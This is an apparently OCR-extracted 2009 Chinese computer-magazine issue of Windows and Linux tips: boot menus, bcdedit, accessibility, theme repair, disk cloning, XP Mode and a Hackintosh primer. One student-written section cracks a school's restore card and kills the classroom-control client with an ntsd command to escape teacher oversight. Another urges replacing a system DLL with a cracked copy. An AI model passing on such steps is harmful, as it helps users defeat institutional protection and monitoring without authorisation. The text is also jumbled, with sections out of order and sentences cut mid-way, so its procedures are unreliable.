setlocal
cls（清屏）
color A（字体颜色，背景色默认为黑色）
echo（显示自己设置的内容）
echo
另存为cfan.bat
```

名字可以随便定，最好不是中文，可以保存到硬盘的任意位置，比如：c:\cfan.bat把路径记好。

在“开始→运行”处输入regedit打开注册表编辑器，搜索Command Processor并定位到该键值，在该项的右面有个autorun键，双击之后在弹出的对话框中输入c:\cfan.bat并确定，再运行一下命令提示符，改造效果是不是清晰可见了？

## 嫁入名门，光驱启动驶入VIP快速通道

无论进行系统维护或者是安装操作系统，经常需要将光驱设置为第一启动设备。想想看吧！通过修改BIOS将光驱设置为第一启动设备，得敲击键盘好几次，重启一次才可实现。麻烦！那么，能不能化复杂为简单，只需一键，就能够实现从光驱启动系统呢？答案当然是肯定的。由于XP和Windows 7启动菜单的添加方法有着本质的不同，就通过这两个时下最有代表性的系统为例，瞧瞧如何在系统的启动菜单中添加“从光驱启动”的菜单选项，一键启动系统！

### XP添加“从光驱启动”的菜单选项

先来看看目前使用最多的XP系统吧，从http://work.newhua.com/cfan/200914/romqidong.rar下载romqidong.rar，将其解压到硬盘的任意位置，并双击运行解压得到的“从光驱启动.exe”，这个安装程序就会自动将解压得到的bootsect.cdr复制到C盘的根目录下（C盘为系统盘，下同），并打开配置文件Boot.ini，然后在这个配置文件的末尾添加一个内容为“c:\bootsect.cdr=从光驱启动”的语句。

重启系统，你就会发现在系统启动菜单中多出“从光驱启动”菜单选项。如果之前已经在光驱中放入了具有启动功能的光盘，选中图1A处的菜单选项，并按下回车，就可从光驱启动系统了。如果没有放入具有启动功能的光盘，屏幕还会给出“请插入可引导设备”的提示信息，以提醒放入具有启动功能的光盘，够人性化吧？

小提示：假如日后想删除“从光驱启动”菜单选项，可先删除C盘根目录下的bootsect.cdr文件（需显示受保护的系统文件），然后打开配置文件Boot.ini，将“c:\bootsect.cdr=从光驱启动”语句删除。

### 为Windows 7添加“从光驱启动”的菜单选项

由于Windows 7和XP系统启动菜单的添加方法有着本质的不同，无法通过修改配置文件Boot.ini为Windows 7的系统启动菜单添加一个“从光驱启动”的菜单选项。那就歇菜了吗？不能！只需运行四条DOS命令，就可完成。

先将解压romqidong.rar得到的系统文件bootsect.cdr，复制到C盘的根目录下。然后，以管理员身份运行“开始→菜单→附件→命令提示符”，执行命令：

```
bcdedit /create /d "从光驱启动" /application bootsector
bcdedit /displayorder 标识符/addlast
bcdedit /set 标识符device partition=C:
bcdedit /set 标识符path \bootsect.cdr
```

上述四句DOS命令运行完毕后，重新启动系统，在Windows 7的系统启动菜单中就多出了一个名为“从光驱启动”的菜单选项，选择这个菜单选项，就可以从光驱启动系统了。

## 这个世界真不冷，让电脑给他们多一点爱

电脑已经融入了我们的生活，对于健壮的青年人来说，连续操作几个钟头不是难事，但对于老人、残障人士等需要关爱的群体来说，使用电脑并不方便？如何才能让他们健康、正常地使用电脑呢？

工具→放大镜”，就可启用“放大镜”。它能够帮助视力不好的用户，更容易地阅读屏幕的显示。浏览网页的时候，视线是跟随着文字移动的。如何让放大镜也跟着动呢？在“跟踪”选项组中，可设置放大镜窗口中的显示内容是否跟随鼠标指针，以及是否跟随键盘焦点，勾选“跟随鼠标指针”即可。

变化时，我们是否也曾想到过，为那些特殊的同胞创造了更进一步的方便呢？特殊群体，就必然有特殊需求。在国外，已有很多为有障碍的朋友设计的信息技术相关的产品，微软的Windows也关心着残障人士。

## 人老心不老，照样用电脑

多数老人由于年龄增大会出现老花等视力问题，默认显示的字体对他们来说有点偏小。好在现在市面上显示器的尺寸普遍在19英寸以上，为大字体显示制造了方便。一般电脑使用的分辨率都是1400×900或1024×768，老人使用时不妨调整为800×600，这样电脑显示的字体都会变得大出很多。如果不想调整分辨率怎么办呢？使用系统自带的“放大镜”即可。

单击“开始→所有程序→附件→辅助工具→辅助功能向导”，即可启用“辅助功能向导”，它会在整个过程中指导你如何使用专门工具来自定义计算机，从而满足你视觉、听力或行动的需求。

小提示：在“外观”中选中“启动后最小化”，则在启动放大镜后，“放大镜设置”对话框最小化到任务栏中；若选中“显示放大镜”复选框，则显示放大镜的窗口等。

单击“开始”，依次指向“所有程序→附件→辅助

也可以到http://www.newhua.com/soft/14742.htm下载“网络鹦鹉”，它可以可自动朗读网页等软件中的文字，也可打开文本文件来朗读。安装之后，点击屏幕上部的“朗读”按钮即可朗读，点击左右箭头可以调节朗读速度。

## 特别的爱，给特别的他们

在看到计算机信息技术飞速发展所带来的巨大

(文/航瑞)

## 苦海无边 “拯救” 机房小记

学校的机房犹如牢房一般，这次制作的东西下次再上机就“飞”了，而且上课时会被控制，自己什么也不能动了。最要命的是老师又不愿意讲课，只是让大家盯着投影看他的PPT教案，同学们身处水深火热之中，又一个星期四，我开始了破解之路……

等；硬件还原卡，如联想慧盾、小哨兵、三茗PCB等。两类还原卡原理基本相同，只是取得控制权的先后不同，学校用的是联想慧盾。尝试着在BIOS中禁用PCI插槽达到破解目的，可是BIOS也被保护着。

## 没有做不到！快速复制“死”文字

经过一番苦苦寻找，终于找到一款破解工具：硬盘保护卡克星（下载地址：http://www.newhua.com/soft/37063.htm），保持默认选项就可以了。确定之后重启，会发现还原卡提示重新安装，这时只要点关闭还原卡保护就可以了。

我没有恶意，破坏计算机就是对自己的不尊重，也是对社会的破坏，所以没有关闭还原卡，之后又把它恢复了。

## 摆脱你的控制

学校用的是极域电子教室，一旦被控制，鼠标键盘就都失效了，所以一定要在上课之前，也就是被教师机控制之前搞定它。经过一番查看，这款电子教室只有一个可见的进程，只要结束它应该就可以了，但任务管理器是不行的。经过电话咨询高人，得到Windows自带的一个无敌工具ntsd。于是，在“开始菜单→运行”下输入cmd打开命令提示符，输入“ntsd -c q -pn studentex.exe”，伴随着一系列数据闪过，进程被顺利结束，并且脱离了教师机的控制，破解成功！

后记：破解是下策，如果你有个好老师（而不是上课坐在那看杂志、放PPT投影），请尊重他，让他传授给你更多的电脑知识。

小知识：ntsd从Windows 2000开始就是系统自带的进程调试工具，提供给系统开发级的管理员使用，位于system32目录下。ntsd的功能非常强大，在Windows中只有System、SMSS.EXE和CSRSS.EXE，以及恶意程序不能结束掉。

在使用电脑过程中，经常遇到一些不能通过常规方法复制的“死”文字，例如系统或是软件出现故障后弹出的提示框。还有一种情况，那就是无法实现瞬间复制，比如我们每天都要使用的QQ聊天群，其中的名单便是如此，假如你是群主或管理员，打算复制全部群成员名单组织活动邀请，只能打开个人资料挨个复制。有没有快捷方法呢？

使用WindowsTextCopyer这款小工具就可以达到目的了。到http://work.newhua.com/cfan/200914/wtc.rar下载，不用安装，直接运行后，用鼠标拖拽“查找工具”右侧的小按钮并将其放到QQ群聊天窗口的名单“小窗口”中，窗口中的文字便会自动显示在软件下面的内容框中。

## 让还原歇息一节课

还原卡是用来保护硬盘数据不被恶意修改，分为两类：软件还原卡，如：还原精灵、三茗一键恢复

(文/射阳山人)

小提示：Snaglt或HyperSnap之类的截图工具，也可以抓取文字。比如抓取注册表键值路径：打开Snagit后选择“方案→其他方案→窗口文本”，按下抓图快捷键即可。

(文/daigua)

## 请穿好你的外衣 外观难题总攻略

开启主题，犹如为Windows穿上了一件华丽的外衣。然而很多时候，你可能会遇到下面三大难题之一（如果你运气够“好”都遇到过，请致电CFan与小编洽谈）：

- 1. 无论怎么设置，主题都是经典外观。
- 2. 辛辛苦苦下载的第三方漂亮主题，怎么应用都不灵。
- 3. 不管自带主题，还是第三方主题，应用之后都显得残缺不全。

百度谷歌半天被各种方法弄晕了吧？不用烦了，把这篇文章收藏好，再遇到主题故障随手抄出，问题分分钟搞定！

## 不要经典，还我蓝色

如果Windows无法应用任何主题，在控制面板的“外观”选项卡中只能选择类似Windows 2000的经典外观。

## 第一损：资源。

如果确定主题服务与“桌面体验”组件都已具备，但列表中依然没有主题可选，可能是视觉样式文件夹X:\Windows\Resources\themes中的相关资源丢失或受损。

Windows Shell相关的若干系统文件如果受损也可能会造成无法应用主题，甚至可能会在控制面板中打开“显示”属性时出现RUNDLL32运行错误。这些相关的系统文件包括Explorer.EXE、Shell32.DLL、User32.DLL、Desk.CPL、ThemeUI.DLL等，解决方法是在命令提示符中输入SFC /SCANNOW检测并修复。

## 外来媳妇，不受待见？

在默认的系统设置中，仅允许应用系统内置的有限几种主题，很多人选择了下载第三方主题，但无法应用，这是哪门子事？

### 小提示：

如果确认所有系统文件都没有损坏，但依然无法应用主题或在打开“显示”属性时出现“RUNDLL32运行错误”，可以尝试在“开始→运行”中执行REGSVR32 MMSYSTEM.DLL重新注册一下此文件。

主要原因：你没有破除系统限制。系统默认对主题的限制来源于Windows\system32\UxTheme.DLL，网上有很多解除限制的破解版UxTheme.DLL可供下载，将破解版的UxTheme.DLL通过故障恢复控制台、多操作系统或PE等复制至system32系统文件夹，替换源文件即可解除限制。

## 独门技巧：让2003 “门”前也靓

如果Windows登录界面的主题遇到问题，可以修复HKEY_USERS\.DEFAULT中的相应设置以修复。2003系统默认是只使用经典样式的，虽然可以开启主题服务并在控制面板中应用主题，但只限于当前登录的用户，对登录对话框无效。此时便可以在将当前用户账户的主题设置好之后，将HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\ThemeManager的所有数据，照搬至HKEY_USER\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\ThemeManager。这样即可将当前用户账户应用的主题应用至登录对话框。

简易方法：重新安装第三方管理工具。StyleXP等第三方管理工具可依靠自建立的服务全面接管Windows的主题服务，通过第三方软件的服务即可直接应用来自第三方的Themes，因此可以安装相应的第三方主题管理工具以突破Windows无法应用第三方主题的限制，例如StyleXP。

## 主题残缺，忽悠瘸了？

## 第二损：系统文件。

应用之后不全的主题，多数发生在XP中，是由于某些旧版程序无法全部应用或只能部分应用主题。

某些不支持主题的旧版程序经过eXeScope（下载地址：http://www.onlinedown.net/soft/9594.htm）修改后或许就可以支持主题，但不是全部。以eXeScope打开旧版应用程序的相关EXE或DLL文件，选中工具栏的“XP样式”后保存修改。如果eXeScope显示此文件“早已经是XP样式”后，依然无法应用主题，那就认命吧！

XP家庭版/专业版内置有Luna，Vista内置有Aero。可以从其他相同版本的Windows中直接复制上述名称的文件夹（Luna、Aero）至Windows\Resources\themes以修复主题资源。

## “不丢人、不多虑、不缺件” 三不原则搬进T级别墅

文件、软件删了又删，硬盘还是挤不下了。“革命前辈”Refine曾经说过：“挤不下就不要挤了，换吧……”没错！如今的硬盘已经便宜到你不得不掏手的地步，640GB的容量掏出500元还有大把找钱，1TB的大容量徘徊在六七百之间，而1.5TB的超大容量也早已步入千元之内。马上旧换新，小换大，唯一的障碍在于：怎么样转移系统和资料数据呢？就用硬盘克隆术！

其实道理跟现实中的搬家一样：家庭人员不能少、家具不变，只是搬进更大的房子里。给硬盘搬家，一点一点地复制那过于低档了，我们有3不原则：不重装系统、不重安软件、不备份文件，一起搬进TB级的硬盘别墅吧！

## 搬家之前，你需要知道的几件事

- 1.哪些筒子需要给硬盘搬家？
★系统经常提示空间不够
无论是在下载文件之前、安装软件之时，或是Playing game时，系统任务栏不断弹出“磁盘空间太少”的提示；兄弟，别犹豫了，换硬盘吧！
★可用空间像秃顶脑袋上的头发——越来越少
当硬盘的总体可用空间不足10%的时候，你也不要犹豫了，要么大幅删除不需要的文件，要么为了保持运行的稳定性，更换硬盘吧。
★蓝底白字的幻灯片不断上演
硬盘不稳定了，总是会出现蓝底白字的恐怖画面，是的，我们中间没有几个人喜欢天天看到蓝屏的“美丽容颜”。老迈的硬盘，需要更换了。

- 2.新买硬盘，缘何少了好几个GB？
不要怀疑这是厂家在偷工减料，这是一个算法问题。计算机课上老师说：“1GB=1024MB”，但厂家说：“1GB=1000M”，320GB的硬盘装到电脑上总共是298GB，所以，系统中显示的总容量总是比标称的要小。

## 上篇：前期准备

马上就要换上新买来的大个硬盘，您先别猴急。俗话说“心急吃不了热豆腐”。花费一点儿时间，对旧硬盘进行相应整理，让后续工作更加稳定。清理磁盘和磁盘检查，就这两样活儿。

- 第一步：大扫除。点“开始菜单→附件→系统工具→清理磁盘”，选择目标分区后确定。建议从C分区开始，逐一清理。
- 第二步：全面检修。进入“我的电脑”，在目标分区上右击选择“属性”，点“工具→开始检查”，勾选“自动修复文件系统错误”和“扫描并试图恢复扇区”。点击“开始→是”，重启。两三分钟后检测完成。

在旧硬盘没有任何损坏的前提下，将新硬盘加装在主机上，就可以进行搬家工作了。现在的新硬盘多是SATA接口的，而你的老硬盘很可能是IDE接口，3.5寸硬盘，不管是IDE还是SATA，其外观和体积没有什么区别，只是在接口处区别很大。

## 怎么安装新硬盘？

打开机箱之后……SATA硬盘：插上小巧的7芯SATA传输线，另一端插在主板上，再从电源延伸出的线中找到L形的接头，对接，即可。

为了区别两块儿硬盘的分区，将旧硬盘的分区名称进行一一更改，比如OLD C、OLD D等。右击“我的电脑”，选择“管理→存储→磁盘管理”，在此处，即可看到新硬盘的信息。

另外，在设备管理器中也可以检查是否安装成功。

## 小提示：怎么更换笔记本硬盘？

笔记本的硬盘位于背面，硬盘仓通常有两种形式：抽屉式和挡板式。拧下固定螺丝，再拔出支架，拧下四周螺丝，取下硬盘。把新硬盘装上，逆向操作，完成更换。

## 中篇：搬进新家

## 方法一：科幻战车，Acronis完美搬家

因为这次硬盘搬家，原则是不重装系统、不重安软件，不备份系统，特地从彗星请来了“科幻战车”——Acronis True Image Home 2009。虽然需要付费购买才能使用正版，但它提供30天全功能试用，足以让你完成给硬盘搬家的任务了。

```
打开下载地址：http://download.acronis.com/TrueImage2009_d_cn.exe，双击安装包之后，选择第二项的安装该软件，然后点击“试用30天”，跳过输入序列号的界面，安装完成后需要重启。
```

提示是否需要“单键保护”的界面，点击“取消”，点击“工具→克隆磁盘”出现磁盘克隆向导，点击“下一步”。这时，如果选择“自动”模式的话，假如旧硬盘有多个分区，会依照旧硬盘的分区比例，自动在新硬盘上进行分区。推荐选择“手动”模式，可以自主给新硬盘分区。

第一步：选择“源磁盘”，根据名称及容量选择旧硬盘后点击“下一步”。再选择“目标磁盘”，点击新硬盘，点“下一步”。接下来需要决定对面临“淘汰”的旧硬盘的命运，为预防搬家过程中资料不幸丢失，在“移动方法”中，勾选“保存资料”比较稳妥。

第二步：轮到新硬盘的分区了，勾选“继续重新配置”后点击“下一步”出现磁盘分区界面，跟Windows自带的磁盘管理以及PQ分区工具大体相似，既可以拖动滑块，也可以在下部输入数值大小。

第三步：完成分割后点击“下一步”，即将开始搬家工作，此时的窗口上列出了即将开始工作的清单，确认无误后点击“继续—重新启动”，开始搬家！片刻后，数据搬家完成。重启进入系统后，会发现“我的电脑”中已经存在新硬盘的分区。

## 方法二：免费搬家，Ghost对拷服务到位

```
下载“一键GHOST硬盘版”（下载地址：http://www.onlinedown.net/soft/33492.htm）。安装后重启电脑，会自动跳到一键备份的画面，启动Ghost。选择Local→Disk→To Disk（本地→磁盘→到磁盘），source disk（源硬盘）选择旧硬盘，destination disk（目标盘）选择新硬盘。在选择硬盘的时候，主要的判断方式是容量。要注意：千万不要按照序号区分新旧硬盘。
```

## 下篇：事后处理

## 让新家早做主

如果打算使用双硬盘，让旧硬盘仍旧存在，怎么让新硬盘的系统生效呢？重启电脑后，按下F2（或者其他键，不同品牌电脑此键不同）进入BIOS设置界面，选择Boot→Boot Device Priority（启动→启动顺序）回车，利用↑↓键选择Hard Disk Drives（硬盘启动），然后选择Hard Disk02回车后，将新硬盘设为系统启动的执行者，按F10保存退出BIOS。再启动之后，你的系统就是由新硬盘引导的全新系统啦，虽然它跟旧硬盘中的系统完全相同。

## Just Do It：搞定硬盘的咔咔响！

为了达到更快地寻道，机械硬盘内部的寻道电机一般都是开足马力，但往往效果不明显，耳朵却听到了怪声！如果实在忍受不了了，就得去掉！安装Intel磁盘驱动（Intel Application Accelerator，下载地址：http://www.pcdog.com/dl/sort/34_1.htm），点击要改变声音的硬盘，在右边的选项中找到“自动声音管理”，选择最小声音输出就可以了。如果不是Intel平台怎么办？靠你自己喽。

## 让旧家有归宿

革命“前背”Refine，真的很点背，买块儿640GB硬盘，插上之后即刻冒烟报废……后来将换回的新硬盘打造成了移动硬盘，这给大家的旧硬盘提供了一个很好的参考归宿——移动硬盘。

随便买个3.5寸硬盘的盒子，一般价格在几十元至几百元不等。装好之后，进入“控制面板→管理工具→计算机管理→存储→磁盘管理”，选取移动硬盘，进行格式化以及重新分区。不用顾虑系统分区，按照你的需求，比如：文档、照片、影音、游戏等分配。

## 网络大补贴：

- 用XP自带的磁盘管理进行分区操作：http://www.knowsky.com/4754.html；PQ MAGIC分区工具的使用方法：http://www.it-waibao.com/it-waibao/soft/100_247_13663.html

### 小提示：

此时虽然已经进入了系统，但还不是新硬盘里复制过去的系统，而是旧硬盘中的“老系统”。这是因为在BIOS的设置中，主打启动的主盘依旧是旧硬盘。

## 不让闪盘迷人眼，借你火眼快速找文件

闪盘用久了，文件夹也建得越来越多，而经常使用的不过是其中几个，有时查找起来相当费劲。不妨将其染上颜色，让它更为醒目，查找更加快捷。

> 小天放话：本方法适用于任何可移动存储设备！

- 第一步：首先下载并安装iColorFolder（下载地址：http://www.onlinedown.net/soft/41567.htm）。接着进入闪盘，右键单击经常使用的文件夹，在弹出的菜单中依次选择“文件夹染色→颜色”，这时文件夹即刻变为所选颜色。但还不能让已染色的文件夹在其他电脑上也有显示颜色。接下来进入第二步。
- 第二步：进入iColorFolder安装目录，将iColorFolder.dll文件复制到U盘根目录内（最好将其属性设为隐藏）。然后进入闪盘中已染上颜色的文件夹，用记事本打开desktop.ini文件，将其修改为如图中所示的内容即可。IconFile后“..”表示上一层目录，IconIndex后面的数字从0~7分别代表着红色、橘黄、淡黄、嫩绿、天蓝、紫红、灰色。

在iColorFolder安装目录中的Skin文件夹内有4种不同风格的文件夹图标，可进入自己喜欢的图标，将其文件夹内的iColorFolder.dll文件复制到U盘中，这时闪盘内已染色的文件夹将会以你所喜欢的图标出现，更加醒目。

### 小提示：

每个染上颜色的文件夹都需要修改desktop文件。但其为隐藏文件，需要在“文件夹选项”中将“隐藏受保护的操作系统文件”前的钩去掉，并将“显示所有文件和文件夹”选中才能显示。

```
[.ShellClassInfo]
ConfirmFileOp=0
IconFile=..\iColorFolder.dll
IconIndex=0
```

我来修电脑(2009年14期)

世界上最痛苦的事是什么?答:世界上最痛苦的事是电脑开不了机,还进不了安全模式啦!
世界上最最痛苦的事是什么?答:世界上最最痛苦的事是不但开不了机,连显示器信号都没有了!
虽然Refine是无神论者,相信一切都是在有生之年(即这辈子)所有,但在使用电脑的过程中,碰到一些棘手的故障之时,在绞尽脑汁百转千回都没有解决的时候,我不得不认为:电脑也是有生命的,所以它会生病,在它生病的时候,它卧床不起,表现形式就是:启动不了!

故事一：电脑三修

某日中午,当我兴冲冲地跑回家打开电脑时,却发生了一件让我很不爽的事——心爱的电脑又病了(之所以说“又”,是因为打从它落户到我们家的那一天起,就没少给我添麻烦)。具体现象:开机很久后都没有信号输出,主板也没有发出正常的“滴”声。故事,就这样开始了……(Refine:也可以说,接下来,就是见证奇迹的时刻……)

一修

最先想到故障原因是电脑温度过高,于是做出了一件很雷人的事:打开机箱,把家用风扇搬来对着机箱内部吹(别笑,这方法以前曾经奏效),不过故障依旧。

二修

会不会是前几天的超频失败而引起的故障呢?带着紧张、焦虑、兴奋,用另一台电脑上网查阅资料,然后改变跳线方法,清除了CMOS。搞定之后再开机,问题依旧!

三修

不得已,只好向一位硬件达人同学求救!他给我指了条“明路”——DeBug侦错灯,同学解释说:由于故障时没有发出正常的“滴”声鸣叫,应该是某个硬件出现了问题而导致。恰好我的主板自带了个DeBug侦错灯。回到家再次打开电脑,拆开机箱,这次我目不转睛地盯着那个DeBug侦错灯,发现故障时它停留在“C1”信号上,查阅主板说明书,问题在内存上!于是重插内存,再开机,故障解决。
Refine:在自己得不到故障药方的情况下及时向达人求助,值得表扬!下次也可以到CFan论坛进行求助：http://bbs.cfan.com.cn。
讲故事的人/WJie.L

故事二：无法开机，我有秘技

上个月,我寝室同学的电脑莫名其妙地出现了这一现象:开机后屏幕无显示,BIOS无自检,更无法进入Windows系统。到底是怎么回事呢?

刚开始,我怀疑是显示器有问题,检查后发现主机有问题。不能正常显示,首先想到的是显卡有问题,不过换了显卡之后,仍未见效。定是主板问题了!根据本人多年维修经验,早已总结出一条无限介于牛A与牛C之间的强大定律:软件出错重装系统;硬件出错BIOS放电!(Refine:面对这条定律,牛顿也得跑出来跟我一同向你膜拜。)

屁颠屁颠地切断电源打开主机箱,抠出BIOS电池开始放电,30分钟后复位,连接电源重启电脑,果然,一切正常!伴随着优美的Windows登录音乐,我沉浸于无限的自恋之中……(Refine:老兄,告诉你个不幸的消息,要清空CMOS信息,光给电池放电已经不行了,需要使用跳线方式)

可惜啊,好梦不长,过了三四天左右,这个问题竟然又出现了。之后重复几次,依旧如此。神啊!莫非这是“上帝之脚”?(Refine:只听说过马拉多纳的“上帝之手”……)
问了某电脑销售店的一位负责技术的老兄之后,他笑了,说这并非是主板引起的问题,而是内存条上灰尘过多造成的,所以单纯地给BIOS放电并不能解决问题。
打开主机箱,果然发现内存条上有很多灰尘。取出用干抹布将灰尘擦拭后,重新插回,再次启动电脑,一切正常!哎,这么简单,当初我就怎么没有发现呢……
Refine:下次能不能来张“淑亮”一些的照片,太黑了……莫非是吃了烤串变黑?
讲故事的人/高中原

小编大结

就像在开头Refine那个笨家伙所说的,电脑无法启动的原因有很多,既有可能是硬件方面的,这时候参照故事中的主人公,使用排除法,也有可能是系统出了故障,甚至是中毒。系统故障方面,丢失系统重要文件比较常见,误删、病毒删除等都有可能导致。这时不用急着重装系统,翻翻以前的CFan,介绍过很多次“填回”系统文件的措施。一般来说,进不去系统的话,正常操作程序:尝试进入安全模式,删除最近安装的软件,或者删除系统分区很明显的EXE类木马、病毒;无法进入安全模式,原因有很多,可尝试“恢复到最近一次的正确配置”。

释放通行证 古董店开在新特区

很多人用上Windows 7了,没错,但大部分筒子都是选择了XP+Windows 7双系统。
为什么呢?因为很多老程序、老游戏无法在Windows 7下运行,即使选择了兼容模式也是如此。
怎么办呢?其实这个问题微软早已帮你想到了,在Windows 7提供了XPM,它可以驻扎在Windows 7下,让再老的程序也能完美运行。当古董店开在新特区,它也为特区带来了许多便捷的通行证,首先,你可以告别双系统了!

那些Windows 7还不能通行的东西:

-   1. 360安全卫士,目前无法在Windows 7上实现安装和使用。
-   2. 360保险箱容易出现蓝屏故障。
-   3. “跑跑卡丁车”、“QQ堂”、“泡泡堂”无法在Windows 7下正常运行。
-   4. “星际争霸”、“极品飞车10”、“大富翁”、“帝国时代”等单机游戏,经常会出现运行受阻或是意外弹出窗口的问题。

小知识：什么是XPM？

XPM (Windows XP Mode) 是“Windows XP 模式”,它微软为了解决Windows 7的兼容性故障,而推出的一个虚拟机软件。其基本的实现方式就是运行一个虚拟的XP桌面,与Virtual PC不同的是,在这个虚拟机中的程序可以被拉到Windows 7桌面上用,且能单独为程序建立各自快捷方式。

先别惊喜，XPM 也挺挑剔

并不是任何电脑都能使用XPM,软件环境要求使用的是Windows 7 专业版、企业版和旗舰版这三个版本。硬件则要求内存2GB以上;使用支持虚拟化技术的CPU,即可支持Intel-VT技术或者AMD-V技术的CPU。查看自己的CPU是否符合要求可以下载http://www.expreview.com/img/review/XPM/securable.exe,下载后直接运行程序,如果在Hardware Virtualization (虚拟化技术)一栏显示为绿色YES字样,则可在Windows 7中启用XPM。
XPM下载地址: http://www.microsoft.com/windows/virtual-pc/download.aspx, 安装过程很简单,先安装Windows6.1-KB958559-x86.msu补丁文件,然后启动XPM的安装即可。完成后默认启动XPM,初始设置和刚开始使用XP一样,按屏幕提示设置登录密码;其他按默认设置完成初始化。完成初始化操作后会出现XP登录窗口,按提示输入上述设置的密码登录,现在就可以在Windows 7中运行Windows XP了,这可是正版的XP哦。

Windows 7联机上网后,XPM可以自动上网。
第二步:插上建行的U盘并加载,单击XPM上方“USB→attach你的U盘名”。此时在XPM中提示找到新硬件,按提示安装好U盘驱动和证书。
第三步:打开IE登录建行网上银行http://www.ccb.com/portal/cn/home/index.html,现在就可以像在XP下一样使用网银支付了。

通行证一：顺畅使用网银

网银在线支付都要借助Activx控件支持,Windows 7下IE8严格的权限措施使得很多在线支付无法完成。比如,使用建行网银支付,总是会在最后一步弹出空白对话框,无法完成支付操作。现在可以在XPM下轻松完成。
第一步:单击“开始→所有程序→Windows Virtual Pc→Virtual Windows XP”,启动虚拟机后,在虚拟机里单击“开始→Internet Explorer”启动IE浏览器。这个虚拟机默认就使用NAT共享,也就是在

通行证二：7 下也玩“泡泡堂”

“泡泡堂”这款游戏的经典程度毋庸置疑,但在Windows 7中却并不能很好地运行。爱玩这款游戏的朋友可以在XPM中使用!
安装好XPM后,它默认就设置好了磁盘共享,打开“我的电脑”后可以直接访问实机的分区。比如原来Windows 7的C分区会以“C在CFAN-PC”形式显示。现在在XPM中打开原来下载的泡泡堂游戏安装,再试一试是不是可以运行了呢?
(文/无奇)

杯酒、满茶，切磋棋艺享天伦

对于多数长辈来说,操作电脑是一件很很苦恼的事情,很多老年人甚至不会用手机发短信。老人们操劳了一辈子,我们不应该让他们来适应年轻人的节奏,而是为他们量身打造。此时,Ubuntu下的自带功能便能满足老人的需求。

将死你的军!

在Ubuntu世界中,存在着一位界面美观而且棋力高深的象棋大师:“天书棋谈”,英文名是gmchess。

```
第一步: 输入http://gmchess.googlecode.com/files/gmchess-0.20.tar.bz2, 下载gmchess-0.20.tar.bz2, 放置到主目录, 打开终端, 输入如下命令:
cd
tar jxvf gmchess-0.20.tar.bz2
cd gmchess-0.20
ls
```

这样就把它解压到gmchess-0.20目录下了。
第二步: 继续输入:

```
./configure (注意前面的./不能少, 号表示当前目录)
sudo apt-get install intltool
./configure
```

最后, 输入sudo make install开始编译, 这一步可能需要几分钟, 安装后它会在“游戏”菜单里创建一个“天书棋谈”的菜单项!

小提示:

如果提示缺少包libgtkmm和libglademm的话, 可以输入“sudo apt-get install libgtkmm-2.4-dev”, “sudo apt-get install libglademm-2.4-dev”。
(文/洪东华)

表里如一，启动菜单语言随你定

前些日子，莱莱从网上下载了一个Windows 7 RC镜像，好不容易把系统安装上了，与原来的Windows Vista系统组成了双系统。小菜却发现进入Windows系统后，不管Vista还是Windows 7两个都是中文界面的，但是在启动管理器中界面却是英文的，咋这么奇怪呢？小菜很是纳闷，于是找隔壁的电脑高手大虾问个究竟。
小知识：会说多国语言的启动管理器
虽然启动管理器菜单的语言有一个默认值，但实际上所有版本的系统都会内置很多种语言，在C:\Boot目录中可以找到。其中，语言要包括两个部分：一是MUI语言文件（作用是告诉系统这是中文还是英文的），二是字体（作用是菜单显示的文字是用什么字体），保存在C:\Boot\Fonts目录中。

第一步：以管理员的权限打开CMD命令输入窗口（在桌面上建立一个命令提示符的快捷方式，然后右击它选择“以管理员权限运行”）。
第二步：在提示符下输入并执行以下命令：
bcdedit /set {bootmgr} locale zh-cn
（把多系统共存时选择需要启动哪个操作系统的选择菜单的显示语言修改为简体中文）
bcdedit /set {current} locale zh-cn
（把当前选定的Windows操作系统的F8高级启动菜单的显示语言修改为简体中文）
bcdedit /set {memdiag} locale zh-cn
（把Windows内存诊断工具的显示语言修改为简体中文）

```
bcdedit /set {current} locale zh-cn
bcdedit /set {memdiag} locale zh-cn
```

小提示：
在Windows下查看启动管理器的语言？
以管理员权限运行命令提示符，输入并执行bcdedit /enum all命令，然后查看locale项的值，如果为zh-cn就是简体中文，如果为en-us则为英文，其他语言依此类推。

(文/庞锦贵)

一本PC，两手准备，摘下苹果满天“行”

上课ing。语文老师念不清：“同学们，请用‘假如……就可以……’造句”，等待回答问题多时的蒋不完同学立即举手。
“假如我有一台苹果电脑，就给未来的女友使用，她就可以在听歌看电影时获得更好的视觉享受”；
“假如我有一台苹果电脑，就可以学习苹果编程、设计，在就业大军中手握高薪岗位通行证！”
“假如我有一台苹果电脑，就可以作出有质感的PPT，在客户面前演示，倍儿有面子！”
其实，蒋不完同学有一个更简单实际的方法实现，那就是：在PC上装苹果系统。自从苹果公司采用Intel产品后，已经可以在普通PC上安装苹果系统了。蒋不完同学可以给他未来MM买个上网本，装上苹果系统，物美价廉，自己的电脑装上Windows+苹果双系统，在学习编程、制作PPT时候进入即可。
MAC OS： “缘分啊，Windows大哥”
MAC OS X是苹果电脑专用系统，就像PC电脑上的Windows系统，苹果电脑使用英特尔处理器后，其硬件也采用了和普通PC一样的X86架构。高手改造了MAC OS X，使得它可以在PC上安装运行。为了和微软用户接近，苹果发布Boot Camp软件，让Windows XP系统运行在装有英特尔处理器的苹果电脑上，MAC和Windows从此结缘。

磨刀不误砍柴工，准备工作需先行

准备1：安抚好硬件
对于一个新的系统，要让自己硬件在系统中使用，就必须准备好自己的驱动程序，特别是陌生系统。因此，要在Windows XP下准备好硬件的苹果驱动。硬件的识别可以借助Everest（下载地址：http://www.onlinedown.net/soft/29587.htm）检测。
程序运行后检测出本机所有硬件，单击“报告→快速报告→HTML”，这样可以把所有硬件信息输出到一个HTML文件中。在报告页面单击“保存为文件”，将硬件资料保存。以后只要打开该文件，展开对应硬件后的链接，即可打开官方主页下载驱动。这里一定要准备好网卡驱动，以便安装后联机下载其它驱动。如果官方网页上无法找到苹果专用驱动，可以到“驱动之家”等专业网站下载。

准备2：选个好吃的“红苹果”

准备3：腾个地儿

按部就班，三步安装

第一步：大苹果巡视驻地

第二步：打扫干净，顺利进驻

第三步：让分区负起责任

-   ★可能有些版本无法通过chain()启动，此时可以到网上下载tboot（下载地址：http://work.newhua.com/cfan/200915/tboot.rar），下载后放置在c:\，操作同上，在boot.ini添加其启动语句即可。
